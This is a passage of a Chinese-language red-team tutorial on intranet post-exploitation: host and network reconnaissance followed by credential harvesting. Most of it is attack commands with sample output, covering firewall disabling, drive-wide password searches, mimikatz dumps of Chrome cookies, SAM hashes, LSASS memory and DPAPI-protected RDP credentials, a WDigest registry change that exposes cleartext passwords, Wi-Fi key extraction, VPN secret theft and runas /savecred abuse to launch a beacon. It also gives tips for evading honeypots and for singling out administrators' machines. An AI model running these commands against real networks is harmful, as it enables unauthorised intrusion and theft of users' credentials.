
// 环境变量命令
env
export

// 系统信息、CPU 架构 内核版本
uname -a
cat /proc/version

// 系统信息
cat /etc/*release

// 获取系统名称和版本
cat /etc/*-release

// CPU 信息
cat /proc/cpuinfo

// 获取 SSH 登录后欢迎信息。
cat /etc/issue
cat /etc/motd

// 获取系统内核版本
cat /proc/verson
uname -r

// 查找可写目录
find / -writable -type d 2> /dev/null

// 查找带有 t 权限（Stickybit）的目录。
find / -perm -1000 -type d 2> /dev/null

// CentOS 所有已安装的软件包
rpm -qa

// CentOS 系统软件包详细信息
rpm -qi <PackageName>

// Debian 所有已安装的软件包信息
dpkg -l

// CentOS 系统指定软件包详细信息
dkpg -l <PackageName>

// Linux 日志存放目录
ls -al /var/log/
```

#### 1.1.4 网络

分析当前主机位于什么网络位置？DMZ、办公、生产还是数据区，获取确定能够通信的网段确定攻击范围。

```plaintext
// Windows 查看网卡信息
ifconfig /all

// Linux 查看所有网卡
ifconig -a
ip a

// 查看 Windows 主机 hosts
type C:\Windows\System32\drivers\etc\hosts

// 查看 Linux 主机 Hosts
cat /etc/hosts

// Windows 查 DNS 缓存信息
ipconfig /displaydns

// Linux 查看 DNS 服务器
cat /etc/resolv.conf

// Windows 查询路由表
route print

// Linux 查看路由表
route -e

// Windows 和 Linux 查看 arp 表，同广播域内主机通信 IP 及 MAC。
arp -a

// Windows 和 Linux 查询目前所有端口状态以数字显示及其进程 ID
// 如果 Windows 需要查询指定 <Port> 状态 可以用 findstr，netstat -ano | findstr <Port>
// 如果要筛选协议可以用 -p，比如 TCP，-p tcp
netstat -ano

// 查看 Linux 网络 TCP/UDP 连接状态和哪个进程在使用。
netstat -pantu
ss -anp

// 查看 Windows 防火墙启用状态。
netsh advfirewall show allprofile

// PowerShell 查看 Windows 防火墙启用状态。
Get-NetFirewallProfile | Format-Table Name, Enabled

// PowerShell 粗略查看防火墙规则。后面的 where Enabled -eq "True" 是用于筛选已启用的规则，这条管道删掉就是全部展示，-eq 改为 False 是筛没启用的规则。
Get-NetFirewallRule | where Enabled -eq "True" | Format-List DisplayName, Enabled, Description
// PowerShell 粗略查看某一条防火墙规则。这里也可以结合通配符使用。
// 如果想查某一条规则需要找到真实规则名称，请用下面的 netsh。
Get-NetFirewallRule -DisplayName "*"

// 查看 Windows 防火墙有哪些规则并展示详情，比如入站出站，限制哪些端口。指不定能够得到一些内网之间或相关系统的 IP 白名单。将 name 替换成具体规则显示名称（DisplayName）则只查指定规则，all 是查看所有规则详情。
netsh advfirewall firewall show rule name=all verbose

// WinServer 2003 以前版本关闭防火墙
netsh firewall set opmode disabled

// WinServer 2003 之后版本关闭防火墙
netsh advfirewall set allprofiles state off

// 查看 Windows 系统代理连接
REG QUERY "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer

// 查看 Windows 系统代理 PAC 脚本连接
REG QUERY "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```

确定完网络范围，去查看主动连接过的机器攻击，会比扫整个网段好，动静小，避免踩蜜罐。对主机服务侦察，要有目的的扫具体服务端口，可别 1-65535 都扫，范围太广又慢动作又大。关注点放在集权或者存在敏感信息的系统，如运维平台（堡垒机，JumpServer）、安全设备（终端平台，联软小助手）、代码托管（GitLab）、虚拟化（Zstack、VMware Esxi）、OA、数据库（Redis、SQLServer） 等，将这些服务端口整理出来针对性搞。

也可以拿下运维人员机器或系统接近目标，一般运维都能够访问大部分网段，或者机器上本来就有跳板机信息，通过跳板机能够访问所有网段机器。

#### 1.1.5 凭证获取

凭证获取相当重要，目标上线后，很可能系统上就存在密码本，里面写着 VPN、Mail 账户，再一个如果应用没启用双因素认证，直接就登录成功，从而获得更多敏感信息。

##### 文件系统

如果入口是台 Web 服务器，拿到 WebShell 后肯定第一时间找数据库配置文件，连接上找账户登应用找敏感数据，以 IIS 为例，web.config 中 connectionString 就存放着数据库账户。

但在实战中常遇到凭证被加密存储。

第一种是必须在服务器上解，采用官方提供的工具，如果复制到本机解则会失败。



这里使用 [Aspnet\_regiis.exe](https://learn.microsoft.com/en-us/aspnet/web-forms/overview/data-access/advanced-data-access-scenarios/protecting-connection-strings-and-other-configuration-information-cs#step-3-encrypting-configuration-sections-using-aspnet_regiisexe) 加密 D:\\ 盘下的 web.conf 配置文件，加密具体节点 appSettings。



解密。

```plaintext
aspnet_regiis -pdf "appSettings" "D:\"
```

另一种就是程序做加解密，一般翻翻 DLL 找加密。



按照代码写的解。



翻完数据库配置文件后，需要重点关注应用输出的日志，很多应用在为了记录错误信息会把账户给打印到日志中，因为并没有进行二次 hash，在里面可以找到很多敏感信息，如用户名、密码、内网 IP 等内容。

但仅做这一步是不够的，这里是要找文件系统上所有可能存在账户的文件，不仅仅是配置、日志中的账户。

一、Windows

整体思路是递归搜索所有盘符下文件（包括隐藏文件），采用 FINDSTR 筛选文件后缀的方式过滤出文件清单，接着筛这些文件里的关键词，发现具体敏感内容。这里分两个版本，一个 CMD 另一个 PowerShell。

先看 CMD 怎么做。

```plaintext
FOR %I in (A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z) DO DIR /S /B /A %I:\ 2> nul | FINDSTR /E ".inc .conf. .config .properties .json .xls .xlsx .docx .doc .pptx .ppt .ini .xml .log .txt .md .sql .yml .yaml .*密码。* .*运维。* .*账户。* .*拓扑。*"
```

这条语法是用 FOR 循环输出所有 A-Z 盘符（通过 "此电脑 -> 映射网络驱动器" 得知驱动器命名是 A-Z），使用 DIR /S 递归搜索，/B 输出文件绝对路径名，/A 显示出所有隐藏的文件，`2> nul` 是将 DIR 错误输出内容 ”系统找不到指定的路径。“ 重定向到 NUL 避免显示在屏幕，FINDSTR 正则筛选关键字得到。

```plaintext
C:\Users\gbb\Desktop>FOR %I in (A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z) DO DIR /S /B /A %I:\ 2> nul | FINDSTR /E ".inc .conf. .config .xls .xlsx .docx .doc .pptx .ppt .ini .xml .log .txt .yml"

C:\Users\gbb\Desktop>DIR /S /B /A A:\   2>nul  | FINDSTR /E ".inc .conf. .config .xls .xlsx .docx .doc .pptx .ppt .ini .xml .log .txt .yml"

C:\Users\gbb\Desktop>DIR /S /B /A B:\   2>nul  | FINDSTR /E ".inc .conf. .config .xls .xlsx .docx .doc .pptx .ppt .ini .xml .log .txt .yml"

C:\Users\gbb\Desktop>DIR /S /B /A C:\   2>nul  | FINDSTR /E ".inc .conf. .config .xls .xlsx .docx .doc .pptx .ppt .ini .xml .log .txt .yml"
C:\Program Files\Common Files\microsoft shared\ink\fsdefinitions\symbols\symbase.xml
C:\Program Files\Common Files\System\ado\adojavas.inc
C:\Program Files\Common Files\System\ado\adovbs.inc
C:\Program Files\Common Files\System\msadc\adcjavas.inc
C:\Program Files\Common Files\System\msadc\adcvbs.inc
C:\Program Files\Common Files\System\Ole DB\oledbjvs.inc
C:\Program Files\Common Files\System\Ole DB\oledbvbs.inc
C:\Program Files\Common Files\Wondershare\PDFExpert\AddIns\PEShellExtension.exe.config
C:\Program Files\Common Files\Wondershare\PDFExpert\AddIns\PEShellExtension.log
C:\Program Files\dotnet\LICENSE.txt
C:\Program Files\dotnet\ThirdPartyNotices.txt
......
```

你也可以将文件追加输出重定向到文本文件内，通过 `type <name>.txt| findstr "KeyWrod"` 筛选想要的文件名。

再筛文件内关键字。

```plaintext
FINDSTR /C:"user=" /C:"pass=" /C:"login=" /C:"uid=" /C:"pwd=" /S /I *.ini *.inf *.txt *.cgi *.conf *.asp *.php *.jsp *.aspx *.cgi *.xml *.log *.bak  *.yml
```

这里我对所有 txt 后缀的文件去查关键字。

```plaintext
PS C:\Users\gbb\desktop> FINDSTR /C:"user=" /C:"username=" /C:"name=" /C:"login=" /C:"uid=" /C:"pwd=" /C:"pass=" /C:"password=" /S /I *.txt
1.txt:user=admin
1.txt:pass=testadmin
1.txt:login=baidu
1.txt:uid=100
1.txt:pwd=1tssz
```

要是有多个文件可以将它存到文件里，使用 FINDSTR 读取文件路径去筛选，这样可以避免大量关键字写在参数上。

将以下文件路径保存到 files.txt。

```plaintext
C:\Users\gbb\Desktop\1.txt
C:/Users/gbb/Desktop/1.txt
```

将关键字保存到 keyword.txt。

```plaintext
user=
pass=
login=
uid=
pwd=
```

运行。

```plaintext
C:\Users\gbb\Desktop>FINDSTR /G:keyword.txt /F:files.txt
C:\Users\gbb\Desktop\1.txt:user=admin
C:\Users\gbb\Desktop\1.txt:pass=testadmin
C:\Users\gbb\Desktop\1.txt:login=baidu
C:\Users\gbb\Desktop\1.txt:uid=100
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=111
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass===
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=0
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:login=1986
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=word91
```

当然你也可以将关键字作为参数也是可以的。

```plaintext
C:\Users\gbb\Desktop>FINDSTR /C:"user=" /C:"pass=" /C:"login=" /C:"uid=" /C:"pwd="  /F:files.txt
C:\Users\gbb\Desktop\1.txt:user=admin
C:\Users\gbb\Desktop\1.txt:pass=testadmin
C:\Users\gbb\Desktop\1.txt:login=baidu
C:\Users\gbb\Desktop\1.txt:uid=100
C:\Users\gbb\Desktop\1.txt:pwd=1tsszD:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=111
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass===
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=0
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:login=1986
D:/gbb/dict/SecLists-2022.2/Passwords/Leaked-Databases/md5decryptor-uk.txt:pass=word91
```

PowerShell 也可以做到筛选文件后缀操作，思路和 CMD 一样，只是语法不同。

```plaintext
PS C:\Users\gbb> 65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | %{$_.FullName} | Select-String -Pattern "\.inc$", "\.conf$", "\.config$", "\.properties", "\.json","\.xls$", "\.xlsx$", "\.docx$", "\.doc$", "\.pptx$", "\.ppt$", "\.ini$", "\.xml$", "\.log$", "\.txt$", "\.md$", "\.yml$", "\.yaml$", "\.*密码。*", "\.*运维。*", "\.*账户。*", "\.*拓扑。*"

C:\AVScanner.ini
C:\Program Files\Common Files\microsoft shared\ClickToRun\C2RHeartbeatConfig.xml
C:\Program Files\Common Files\microsoft shared\ClickToRun\FrequentOfficeUpdateSchedule.xml
C:\Program Files\Common Files\microsoft shared\ClickToRun\officesvcmgrschedule.xml
......
```

`65..90 | %{"$([char]$_):\"}` range 运算符快速生成 65-90 数字（或者也可以 For 循环完整语法等价替换 `for ($i = 65; $i -le 90; $i++) {[char]$i}`），`%{Get-ChildItem -Recurse -File "$([char]$_):\" 2> $null}` 用 foeach 循环 `[char]` 转换成字符 A-Z 作为盘符参数用于 Get-ChildItem 递归获取文件名，通过管道 `%{$_.FullName}` 得到文件绝对路径字符串，使用 Select-String 正则所有对应关键字晒出目标文件。

在学习过程中也遇到很多问题，比如下面语句能筛出文件绝对路径，但是输出结果是对象，找了很多命令（如 Out-String 转换成字符串）也不能通过关键字筛出想要内容。

```powershell
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-List -Property VersionInfo
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-List Fullname
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-Wide -Column 1 Fullname
```

二、Linux

`/tmp` 内的文件定时自动清理或者重启清理，有人习惯把不用的文件直接扔进去，另一个路径是 `/var/tmp` 这个目录不会自动清理文件。可以先从俩临时文件夹中找数据。

使用 find 找对应后缀文件，egrep 文件内容筛关键字。一般找 Home 目录和应用、日志目录。-type f 是搜普通文件，-regex 代表用正则搜。

```plaintext
find / -type f -regex '.*\.txt\|.*\.xml\|.*\.php\|.*\.jsp\|.*\.conf\|.*\.bak\|.*\.js\|.*\.inc\|.*\.htpasswd\|.*\.inf\|.*\.ini\|.*\.log|.*\.sh|.*\.config' > files.txt 2> /dev/null
```

最后对这些文件筛关键字。

```plaintext
// 可以筛出结果。但是不能显示文件路径，为了定位文件最好找出关键字。
cat files.txt | xargs -t -n 1 egrep "password=" 2> /dev/null
```

##### 浏览器

浏览器中需要关注，保存的密码、书签、浏览历史、保存的 Cookie。

Chrome 浏览器数据。

```plaintext
// 浏览记录文件
dir %localappdata%\Google\chrome\USERDA~1\Default\History

// 浏览器 cookies 文件
dir %localappdata%\Google\Chrome\USERDA~1\Default\Cookies

// 浏览器书签文件
dir %localappdata%\Google\Chrome\USERDA~1\Default\Bookmarks

// 浏览器保存的密码文件
dir "%localappdata%\Google\Chrome\USERDA~1\Default\Login Data"

// imikaz 读取 Chrome 浏览器历史记录。
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\Google\Chrome\USERDA~1\Default\LOGIND~1" exit

// mimikaz 读取 Chrome 浏览器 Cookie。
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\Google\Chrome\USERDA~1\Default\Cookies /unprotect" exit
```

##### PowerShell 历史命令⚒️

PowerShell 执行过的命令历史会存留记录，文件位于用户数据目录：

```plaintext
C:\Users\gbb>type %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
scrcons.exe
screentogif.exe
node
cd desktop
node .\realPath.js
node
......
```

```plaintext
PS C:\Users\gbb> Get-Content (Get-PSReadlineOption).HistorySavePath
scrcons.exe
screentogif.exe
node
cd desktop
node .\realPath.js
node
......
```

[渗透技巧——获得Powershell命令的历史记录](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Powershell%E5%91%BD%E4%BB%A4%E7%9A%84%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95)一文里有更详细的描述，比如目标机器正运行 powershell 由于没退出不会保存到文件里，怎么读运行的命令？同样的 cmd 正在运行怎么读取执行过的命令？

师傅给出的方案是向进程发送键盘消息，比如向 cmd 进程发送的消息是命令 doskey /h 就能读取运行过的命令，向 powershell 发送消息 Get-History，能读取 Powershell 运行过的命令。

先看 Powershell

[https://github.com/3gstudent/Homework-of-C-Language/blob/master/SendKeyboardMessageToPowershell(Get-History).cpp](https://github.com/3gstudent/Homework-of-C-Language/blob/master/SendKeyboardMessageToPowershell(Get-History).cpp)

##### 剪切板⚒️

[https://3gstudent.github.io/Windows%E4%B8%8B%E5%89%AA%E8%B4%B4%E6%9D%BF%E7%9A%84%E5%88%A9%E7%94%A8](https://3gstudent.github.io/Windows%E4%B8%8B%E5%89%AA%E8%B4%B4%E6%9D%BF%E7%9A%84%E5%88%A9%E7%94%A8)

##### 共享

在内网环境下，如果没做好网络隔离，通常会有共享权限配置不当的情况，直接就能访问内容，在实战中遇到过开发将密码、代码、开连环境、漏洞测试报告等资料未加密存放。

查本机共享和可以访问的共享。

```plaintext
net share
wmic share get name,path,status
```

查看指定机器共享。

```plaintext
new view \\computername
```

最简单的是将内网所有存活主机，批量粘贴到 PowerShell 中自动查，或者直接写成小工具自动化查。

```plaintext
net view \\<Host>
net view \\<Host>
......
```

在域中查更简单，不需要任何参数，默认直接把域内主机存在共享的主机名输出，要知道还有哪些共享内容，可以进一步跟主机名查。

```plaintext
new view
```

使用 PowerView 可以直接域内哪写机器有哪些共享直观展示输出。

```plaintext
Get-DomainComputer | Get-NetShare

Find-DomainShare
```

查其他域共享

```plaintext
Find-DomainShare -domain <Domain name>
```

能够展示有共享还不行，要看能不能读。

```plaintext
Find-DomainShare -CheckShareAccess
```

磁盘映射。这条命令是将 Host 下 c$ 默认共享盘符 C 盘给映射到本地 k 盘，后面就可以直接访问 k:\\ 下所有文件，不过默认映射是需要账户登录的，这里使用 /u: 作为用户名 作为密码登录。

```plaintext
net use k: \\<Host>\c$ <Password> /u:<UserName>
```

如果目标共享没有认证，也没必要这么麻烦，可以直接像操作本地一样操作。

```plaintext
CD \\<HOST>
COPY \\<Host>\<File> C:\Windows\tasks
```

##### 回收站

```plaintext
FOR /f "skip=1 tokens=1,2 delims= " %c in ('wmic useraccount get name^,sid') do dir /a /b C:\$Recycle.Bin\%d\ AccountNameIs:%c 2>nul
```

遍历回收站目录 `C:\$Recycle.Bin` 下每个用户 sid，这个 sid 目录里包含删除文件，以 `$I` 开头的文件内容是删除文件前存放路径，`$R` 开头的文件就是回收站里的数据。

```plaintext
C:\Users\gbb\Desktop>FOR /f "skip=1 tokens=1,2 delims= " %c in ('wmic useraccount get name^,sid') do dir /a /b C:\$Recycle.Bin\%d\ AccountNameIs:%c 2>nul

C:\Users\gbb\Desktop>dir /a /b C:\$Recycle.Bin\S-1-5-21-3024751843-2535029458-3924619718-500\ AccountNameIs:Administrator  2>nul

C:\Users\gbb\Desktop>dir /a /b C:\$Recycle.Bin\S-1-5-21-3024751843-2535029458-3924619718-503\ AccountNameIs:DefaultAccount  2>nul

C:\Users\gbb\Desktop>dir /a /b C:\$Recycle.Bin\S-1-5-21-3024751843-2535029458-3924619718-1001\ AccountNameIs:gbb  2>nul
$I0E0HZH.txt
......
$R4D9BZK
$R4W3S64.txt
$R6C5WCI.java
$R6IXPC9.txt
$R6J3EQV.txt
$R6PC2LV.txt
$R6XRS59.txt
$R8WK27D.txt
$R9RLGDT.txt
$R9USNWA.txt
$R9Z3B57
$RA7CHLU.txt
$RA7QWH8.txt
$RARVUF7.txt
......

C:\Users\gbb\Desktop>dir /a /b C:\$Recycle.Bin\S-1-5-21-3024751843-2535029458-3924619718-501\ AccountNameIs:Guest  2>nul


C:\Users\gbb\Desktop>dir /a /b C:\$Recycle.Bin\S-1-5-21-3024751843-2535029458-3924619718-504\ AccountNameIs:WDAGUtilityAccount  2>nul

  2>nul \gbb\Desktop>dir /a /b C:\$Recycle.Bin\\ AccountNameIs:
S-1-5-18
S-1-5-21-3024751843-2535029458-3924619718-1000
S-1-5-21-3024751843-2535029458-3924619718-1001
S-1-5-21-3024751843-2535029458-3924619718-1002
S-1-5-21-3024751843-2535029458-3924619718-1003
S-1-5-21-3024751843-2535029458-3924619718-1006
S-1-5-21-3024751843-2535029458-3924619718-1008
S-1-5-21-3024751843-2535029458-3924619718-1011
S-1-5-21-3024751843-2535029458-3924619718-1013
S-1-5-21-3024751843-2535029458-3924619718-1014
S-1-5-21-3024751843-2535029458-3924619718-1016
S-1-5-21-3024751843-2535029458-3924619718-1017
S-1-5-21-3024751843-2535029458-3924619718-1020
S-1-5-21-3024751843-2535029458-3924619718-1028
S-1-5-21-3024751843-2535029458-3924619718-1030
S-1-5-21-3024751843-2535029458-3924619718-500
S-1-5-21-3804654160-2258506165-1772517468-500

C:\Users\gbb\Desktop>
```

##### Wi-Fi

以下命令需要 wlansvc 服务处于运行状态。

```plaintext
// 获取 wlan profile。连接过哪些 WIFI。
netsh wlan show profile

// 获取指定 profile 明文密码
netsh wlan show profile name="ProfileName" key=clear

// 当前连接的哪个 WIFI（SSID）。
netsh wlan show networks mode=bssid
netsh wlan show interfaces
```

##### 凭证管理器⚒️

Windows 提供 Data Protection API（DPAPI）来加解密数据，每台机器使用的密钥都不同。DPAPI 应用的地方很多，主要分 Web Credentials 和 Windows Credentials 两块。比如前面 aspnet\_regiis.exe 用来加密 web.conf 配置文件，RDP 保存的密码是 Windows Credentials，Chrome、Edge 浏览器保存的密码是 Web Credentials。

cmdkey。

```plaintext
PS C:\Users\gbb> cmdkey /l

当前保存的凭据：

    目标: Domain:interactive=RAINGRAY\gbb
    类型: 域密码
    用户: RAINGRAY\gbb

    目标: Domain:interactive=RAINGRAY\administrator
    类型: 域密码
    用户: RAINGRAY\administrator

    目标: LegacyGeneric:target=TERMSRV/localhost
    类型: 普通
    用户: root

    目标: Domain:interactive=RAINGRAY\admin
    类型: 域密码
    用户: RAINGRAY\admin

    目标: Domain:target=DESKTOP-PMCO6SN
    类型: 域密码
    用户: hwyx
```

valutcmd。

```plaintext
C:\Users\gbb>vaultcmd /listcreds:"Web 凭据"
保管库中的凭据：Web 凭据

凭据架构：Windows Web Password Credential
资源：https://test.baidu.com.cn/
标识：ajkdc
保存者：Internet Explorer
隐藏：是
漫游：否
属性 (架构元素 ID，值): (100,D5B63C4E5625D84CA48DC755C737CBA6)

C:\Users\gbb>vaultcmd /listcreds:"Windows 凭据"
保管库中的凭据：Windows 凭据

凭据架构：Windows 域密码凭据
资源：Domain:target=TERMSRV/172.20.10.5
标识：RAINGRAY\test$
隐藏：否
漫游：否
属性 (架构元素 ID，值): (100,2)

凭据架构：Windows 域密码凭据
资源：Domain:target=DESKTOP-PMCO6SN
标识：hwyx
隐藏：否
漫游：否
属性 (架构元素 ID，值): (100,3)
属性 (架构元素 ID，值): (101,SspiPfc)
```

通过回显能发现已保存凭据的账户有哪些，其中很可能以前有使用过 runas 运行过 /savecred 选项，此选项作用是为这个用户记住密码，第一次运行会提示输入密码会存入凭据管理器中，后面再带上这个选项运行则无需密码。因此只要关注 Windows 凭据中的用户名统统尝试一遍撞撞运气。

```plaintext
runas /savecred /user:user cmd.exe

runas /savecred /user:domain\user beacon.exe
```

vaultcmd /listcreds 参数，中文和英文 Shell 下关键字不同，可以通过 `vaultcmd /list` 查看输出结果保管库的值，这里就写的是 Web 凭据和 Windows 凭据。

```plaintext
C:\Users\gbb>vaultcmd /list
当前加载的保管库：
        保管库：Web 凭据
        保管库 GUID: 4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        位置：C:\Users\gbb\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        保管库: Windows 凭据
        保管库 GUID: 77BC582B-F0A6-4E15-4E80-61736B6F3B29
        位置: C:\Users\gbb\AppData\Local\Microsoft\Vault
```

命令所查的内容在控制面板可以查看。



以 RDP 举例。其实也没必要，毕竟只要能解密，就都能查，只是不知道这个账户是哪个应用在使用。

查询连接记录。

```plaintext
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```

或者用 [List-RDP-Connections-History](https://github.com/3gstudent/List-RDP-Connections-History) 脚本获取 RDP 连接记录。

```plaintext
powershell -exec bypass -f ListAllUsers.ps1
```

查询 RDP 凭证文件。

```plaintext
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

使用 mimitakz 解密 MasterKey，从解密结果中 guidMasterKey 的值，确认是真实凭证加密密钥。

```plaintext
.\mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\<UserName>\AppData\Local\Microsoft\Credentials\<CredentialFileName>" "sekurlsa::dpapi" "exit"
```

通过密钥解密得到密码。

```plaintext
.\mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\<UserName>\AppData\Local\Microsoft\Credentials\<CredentialFileName> /masterkey:<MasterKey>" "exit"
```

得到用户名和密码：

-   UserName
-   CredentialBlob

Dialupass.exe 也可以导出 RDP 密码。

##### PPTP

1.具体获取配置文件信息

```plaintext
type %APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk
```

其中 DEVICE 是配置文件名称，PhoneNumber 是服务器 IP。

2.获取密码

```plaintext
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

cur/text 就是账户，但是不知道为啥格式乱了，这里我设置的账户是 admin/admin123，老账户是 admin/admin。

```plaintext
cur/text: 2585290616083adminadmin1230
old/text: 2585290616083adminadmin0
```

3.尝试连接到 VPN

第一个参数 VPN 是前面读取配置文件中的 DEVICE 值，后面两个是用户名和密码。连接要注意的是你登录成功别人会掉线。

```plaintext
rasdial "VPN" vpnlogin ad
```

断开连接。

```plaintext
rasphone -h "VPN"
```

##### 键盘记录⚒️

Keylogger

pass

##### 社交软件聊天记录

微信 [https://github.com/xaoyaoo/PyWxDump](https://github.com/xaoyaoo/PyWxDump)

钉钉

##### 其他常用软件

1.Keepass

-   [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)
-   [https://github.com/alt3kx/CVE-2023-24055\_PoC](https://github.com/alt3kx/CVE-2023-24055_PoC)

2.Xshell

-   [https://github.com/RowTeam/SharpDecryptPwd](https://github.com/RowTeam/SharpDecryptPwd)

3.PuTTY

PuTTY 对连接设置的代理账户在注册表中式明文存储。



```plaintext
C:\Windows\system32>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    ProxyName
    ProxyPassword    REG_SZ    ProxyPassWord
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1
```

4.MySQL

[SQLI (SQL Injection) - MySQL](https://www.raingray.com/archives/1098.html/comment-page-1#:~:text=%E6%96%87%E4%BB%B6%E5%90%8D%E4%B8%BA%20user.MYD%EF%BC%8C%E6%89%BE%E5%88%B0%E8%B4%A6%E6%88%B7%E4%BB%8E%E6%98%9F%E5%8F%B7%E5%BE%80%E5%90%8E%E9%83%BD%E6%98%AF%E5%AF%86%E7%A0%81%EF%BC%8C%E8%BF%99%E4%B8%AA%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E9%99%A4%E6%98%9F%E5%8F%B7%E5%A4%96%E4%B8%80%E5%85%B1%E6%98%AF%2040%20%E4%BD%8D%EF%BC%8C%E9%83%BD%E6%98%AF%E5%A4%A7%E5%86%99%E5%AD%97%E6%AF%8D%2B%E6%95%B0%E5%AD%97%E3%80%82Hash%20%E8%BF%90%E7%AE%97%E5%9C%A8%204.1%2D5.7.9%20%E7%89%88%E6%9C%AC%E4%B9%8B%E9%97%B4%E9%87%87%E7%94%A8%20MYSQLSHA1%EF%BC%8C%E5%AF%B9%E5%BA%94%E5%87%BD%E6%95%B0%E6%98%AF%20PASSWORD(str)%E3%80%82)

MySQL 数据库文件后缀名：

-   frm，表描述文件
-   MYD，表数据
-   MYI，表数据索引

5.Navicat

-   [https://github.com/HyperSine/how-does-navicat-encrypt-password](https://github.com/HyperSine/how-does-navicat-encrypt-password)

6.向日葵

##### Windows 本地账户哈希和密码获取

**一、目标机器运行 Mimikatz 读取**

提取哈希和密码最常用到就是 [Mimikatz](https://github.com/gentilkiwi/mimikatz)，通常由在目标机器上运行工具读需要管理员权限，或者是离线下载读则不需要。

这里并不使用交互的方式运行工具，Shell 可能不支持，而是将选项作为参数合并成一条命令去运行。

1.上传并运行可执行文件⚒️

首先要用 token::elevate 模拟 SYSTEM 账户 Token 权限，其次是 privilege::debug 获取 SeDebugPrivlege 权限访问 lsass.exe 进程，最后才能 lsadump::sam 从 SAM 数据库中获取 NT hash。这整个过程可以用 log 输出运行的结果到 res.txt 文件。

```plaintext
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

sekurlsa::logonpasswords 从 lsass.exe 进程内存中获取明文密码。一样的也是要先获取 SYSTEM 最后获取 Debug 权限。如果要获取机器上登录过的域账户哈希可以使用这条命令。

```plaintext
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

对于 Mimikatz 读不到 lsass 进程内存明文密码是因为微软在 Windows 8.1、Windows Server 2012 R2 及以后版本 [KB2871997](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649#:~:text=%E5%BF%85%E9%A1%BB%E5%AE%89%E8%A3%85%202984972%E3%80%82-,WDigest%20%E8%AE%BE%E7%BD%AE,-%E5%AE%89%E8%A3%85%E6%AD%A4%E5%AE%89%E5%85%A8) 功能融合到系统本身，此补丁让系统默认关闭 WDigest 认证，因此不保存明文密码。

不过此功能可以手动设置注册表 HKEY\_LOCAL\_MACHINE\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest 下的 UseLogonCredential 为 1 启用

```plaintext
# 启用
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# 关闭
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

之后等管理员重新通过 RDP 登录后才能获取到明文密码。至于怎么管理员登录，你可以让服务停掉，或者想办法重启服务器。

2.PowerShell 版本

[Invoke-Mimikatz.ps1 版 1](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/tools/Invoke-Mimikatz.ps1)、[Invoke-Mimikatz.ps1 版 2](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) 获取明文密码

```powershell
